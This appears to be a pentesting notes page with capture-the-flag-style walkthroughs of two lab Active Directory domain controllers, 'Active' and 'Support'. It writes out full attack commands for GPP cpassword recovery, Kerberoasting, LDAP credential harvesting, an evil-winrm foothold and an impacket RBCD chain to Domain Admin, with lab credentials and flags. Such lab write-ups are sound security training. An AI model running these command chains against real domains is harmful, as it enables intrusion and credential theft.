


# Windows — Labs

Full machine walkthroughs (HTB/THM-style), Active Directory domain boxes.

## Active (GPP cpassword + Kerberoasting to Domain Admin)

**Chain overview:** two vulnerabilities chained together, neither sufficient alone.



- **GPP cpassword** (see [Group Policy Preferences (GPP) cpassword](active-directory.md#group-policy-preferences-gpp-cpassword)) only gets a low-privilege domain account (`SVC_TGS`) — not admin, and not enough on its own.
- **Kerberoasting** (see [Kerberoasting a misconfigured SPN](privilege-escalation.md#kerberoasting-a-misconfigured-spn-privileged-account)) needs a valid domain credential just to *ask* for a ticket — which is exactly what the GPP leak supplies. Neither step works without the other.
- Full step-by-step walkthrough below.

### Recon

```bash
nmap -sT -sV -sC 10.129.47.44
```

Windows Server 2008 R2 Domain Controller, `domain: active.htb`, hostname `DC` (Kerberos 88, LDAP 389/3268/636/3269, SMB 445, ADWS 9389):

```javascript
53/tcp    open  domain        Microsoft DNS 6.1.7601 (Windows Server 2008 R2 SP1)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb)
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP
9389/tcp  open  mc-nmf        .NET Message Framing
```

A domain controller means the whole standard AD kill chain applies (see [Active Directory](active-directory.md)) — start with anonymous SMB.

### Anonymous SMB enumeration

```bash
smbclient -L //10.129.47.44/ -N
```

```javascript
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share
Replication     Disk
SYSVOL          Disk      Logon server share
Users           Disk
```

The `Replication` share is non-default and worth digging into — recurse it looking for GPO preference files:

```bash
smbclient //10.129.47.44/Replication -N -c 'recurse ON; ls'
```

Found `Groups.xml` under `active.htb\Policies\{31B2F340-...}\MACHINE\Preferences\Groups\` — pulled and decrypted per the [GPP cpassword technique](active-directory.md#group-policy-preferences-gpp-cpassword) → `SVC_TGS : GPPstillStandingStrong2k18`.

### Validate the credential

```bash
smbclient -L //10.129.47.44/ -U 'active.htb\SVC_TGS%GPPstillStandingStrong2k18'
```

### Kerberoast the domain

Valid low-priv domain creds in hand → Kerberoast per the [Kerberoasting technique](privilege-escalation.md#kerberoasting-a-misconfigured-spn-privileged-account). `Administrator` comes back with SPN `active/CIFS:445` — misconfigured, and roastable.

```bash
GetUserSPNs.py active.htb/SVC_TGS:'GPPstillStandingStrong2k18' -dc-ip 10.129.47.44 -request
```

Cracked offline with hashcat (mode 13100, rockyou) in under 30 seconds → `Administrator : Ticketmaster1968`.

### Domain Admin

```bash
smbclient //10.129.47.44/C$ -U 'active.htb\Administrator%Ticketmaster1968' -c 'cd Users\Administrator\Desktop; get root.txt'
smbclient //10.129.47.44/Users -U 'active.htb\SVC_TGS%GPPstillStandingStrong2k18' -c 'cd SVC_TGS\Desktop; get user.txt'
```

```javascript
user.txt: 4b30ad305d6b3dccf7f6a71223ff33d7
root.txt: 888db83bdc0250ea5734c6f85ad39214
```

!!! tip "Recommendations"
    See the two standalone technique sections (GPP cpassword, Kerberoasting) for detailed remediation on each half of the chain. At the org level: this whole chain traces back to one bad GPO left in SYSVOL for 7+ years — GPO/SYSVOL contents deserve periodic audit just like any other credential store.

---

## Support (custom-tool credential leak + RBCD to Domain Admin)

**Chain overview:** two vulnerabilities chained together, neither sufficient alone.



- **Credential leak from a decompiled tool** (see [LDAP Bind Credentials](active-directory.md#ldap-bind-credentials)) turns a completely unauthenticated position into an authenticated LDAP bind — that's reconnaissance leverage, not a foothold by itself.
- **RBCD abuse** (see [RBCD via GenericAll on a computer object](privilege-escalation.md#rbcd-via-genericall-on-a-computer-object-support)) is what turns a low-privilege domain user into Administrator, by abusing a group's excessive rights on the DC's own computer object.
- Full step-by-step walkthrough below.

### Recon

**Why start with a full port scan on a Windows target:** ports 88/389/445/etc together are the signature of a domain controller — confirming that early changes everything about the approach (AD methodology, not generic web/host testing):

```bash
nmap -Pn -p- --min-rate 1500 -T4 10.129.230.181
nmap -Pn -sV -sC -p53,88,135,139,389,445,464,636,3268,3269,5985 10.129.230.181
```

```javascript
389/tcp   open  ldap   Microsoft Windows Active Directory LDAP (Domain: support.htb)
445/tcp   open  microsoft-ds?
5985/tcp  open  http   Microsoft HTTPAPI httpd 2.0
Service Info: Host: DC; OS: Windows
```

### Null SMB session

**Why try a null SMB session next:** before any credentials exist, an unauthenticated (null) session is the standard first probe against SMB — many domains still allow it for share enumeration even with nothing else exposed:

```bash
smbclient -L //10.129.230.181/ -N
```

```javascript
Disk|support-tools|support staff tools
```

A share literally named for internal tooling is worth checking first — downloaded and found `UserInfo.exe.zip`, a custom .NET utility (see [LDAP Bind Credentials](active-directory.md#ldap-bind-credentials) for the full decompilation technique). Decompiling it recovered a working LDAP bind account: `support\ldap`.

### Authenticated LDAP enumeration

**Why authenticated LDAP enum is worth doing even with a low-value service account:** an LDAP bind account — even one with no real permissions — unlocks reading full user objects, including attributes like `description` and `info` that unauthenticated/anonymous binds can't see. Operators sometimes leave plaintext passwords in these free-text fields as personal notes:

```bash
ldapsearch -x -H ldap://10.129.230.181 -D 'ldap@support.htb' -w '<ldap-password>' -b "CN=support,CN=Users,DC=support,DC=htb" "(objectClass=*)" "*"
```

```javascript
info: Ironside47pleasure40Watchful
memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
```

The `support` user's password was sitting in the `info` attribute — and that user is already a member of **Remote Management Users**, meaning WinRM access is available immediately, no further pivoting needed.

### WinRM foothold

```bash
evil-winrm -i 10.129.230.181 -u support -p 'Ironside47pleasure40Watchful'
```

```javascript
support\support
C:\Users\support\Desktop\user.txt -> 172c8d001fed0cfc9b85e2502d33d942
```

User flag: `172c8d001fed0cfc9b85e2502d33d942`

### Group/ACL mapping

**Why check group membership before anything else at this point:** `support` belongs to a non-default group (`Shared Support Accounts`) — custom groups are exactly where a box author hides the intended privesc path, so it's worth mapping what that group can actually do before trying generic Windows privesc checks:

```bash
bloodhound-python -u support -p 'Ironside47pleasure40Watchful' -d support.htb -ns 10.129.230.181 -c All
```

Analysis showed `Shared Support Accounts` holds `GenericAll` on `DC.SUPPORT.HTB` — the domain controller's own computer object (see [RBCD via GenericAll on a computer object](privilege-escalation.md#rbcd-via-genericall-on-a-computer-object-support) for what that enables and the full exploitation chain).

### RBCD to Domain Admin

```bash
impacket-addcomputer -computer-name 'PWN01$' -computer-pass 'Passw0rd123!' -dc-ip 10.129.230.181 'support.htb/support:Ironside47pleasure40Watchful'
impacket-rbcd -delegate-from 'PWN01$' -delegate-to 'DC$' -dc-ip 10.129.230.181 -action write 'support.htb/support:Ironside47pleasure40Watchful'
impacket-getST -spn 'cifs/dc.support.htb' -dc-ip 10.129.230.181 -impersonate Administrator 'support.htb/PWN01$:Passw0rd123!'
KRB5CCNAME=Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache impacket-wmiexec -k -no-pass -dc-ip 10.129.230.181 -target-ip 10.129.230.181 dc.support.htb
```

```javascript
support\administrator
dc
7ecbaf2e152c963c20242a63e5f85c56
```

Root/Administrator flag: `7ecbaf2e152c963c20242a63e5f85c56`

!!! important "Cleanup"
    Cleanup performed and independently verified: RBCD delegation removed and confirmed as zero DACL entries on decode; `PWN01$` computer account deleted and confirmed absent via a fresh LDAP query. See [RBCD via GenericAll on a computer object](privilege-escalation.md#rbcd-via-genericall-on-a-computer-object-support) for the exact cleanup commands.
